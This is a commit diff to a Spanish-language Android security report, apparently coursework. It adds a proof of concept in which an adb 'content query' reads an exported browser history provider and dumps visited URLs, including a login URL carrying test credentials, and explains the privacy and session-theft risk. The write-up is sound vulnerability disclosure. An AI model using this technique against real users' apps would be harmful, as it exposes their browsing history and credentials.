

Before and after one commit to lbarrios/RIO2015-SeguridadAndroid, a LaTeX document (informe/informe.tex): part of page 4 of 8 before the commit and two parts of pages 4 and 5 of 9 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Agregada información a "Componentes mal exportados".

```diff
--- a/informe/informe.tex
+++ b/informe/informe.tex
@@ -68,11 +68,32 @@ Dado que los archivos \texttt{smali} son particularmente dificultosos de leer, o
 \end{figure}
 \end{center}
 
+\vspace{-30pt}
 \subsubsection{Prueba de Concepto}
+A continuación se muestra un query al content provider \textbf{history\_provider}, realizado con el comando \texttt{content} del shell de Android. Antes de ello, se navegó a través de algunas páginas con usuarios distintos, Google y Facebook con el primer usuario, y Taringa con el segundo usuario.
+
 \begin{verbatim}
 $ adb shell content query --uri "content://ar.sadosky.browser.history_provider/history"
 Row: 0 url_visited=about:blank
+Row: 1 url_visited=http://www.google.com.ar/
+Row: 2 url_visited=http://www.google.com.ar/intl/es-419/policies/privacy/?fg=1
+Row: 3 url_visited=https://facebook.com/
+Row: 4 url_visited=https://www.facebook.com/?_rdr
+Row: 5 url_visited=https://m.facebook.com/?_rdr&refsrc=https%3A%2F%2Fwww.facebook.com%2F
+Row: 6 url_visited=https://mail.google.com/mail/
+Row: 7 url_visited=https://accounts.google.com/ServiceLogin?service=mail&passive=true
+&continue=https://mail.google.com/mail/?ui%3Dmobile%26zyp%3Dl&scc=1&ltmpl=ecobx
+&nui=5&btmpl=mobile&emr=1
+Row: 8 url_visited=http://www.taringa.net/
+Row: 9 url_visited=http://m.taringa.net/
+Row: 10 url_visited=http://www.taringa.net/login.html?user=taringuero&pass=1234
+Row: 11 url_visited=http://m.taringa.net/posts/hazlo-tu-mismo/18505791/
+Te-enseno-a-hacer-una-mochila-3.html
 \end{verbatim}
+
+Como se puede apreciar, por las razones expuestas anteriormente, todo el historial de los usuarios puede ser obtenido muy fácilmente. No sólo es posible ver eso, sino también que el historial de todos los usuarios de la aplicación se encuentra guardado sin distinción del usuario que lo produjo, por lo que todos los usuarios comparten el mismo historial.
+
+El hecho de que el historial sea accesible por cualquier aplicación, representa no solo una brecha a la privacidad del usuario, sino que también existe el peligro de robo de sesiones/credenciales de los sitios en que navega el usuario, suponiendo que alguno de estos datos sean enviados a través de peticiones GET\footnote{Lo cual en sí ya representa una vulnerabilidad}.
 
 %
 %-- Sección: Vulnerabilidades de Red
```
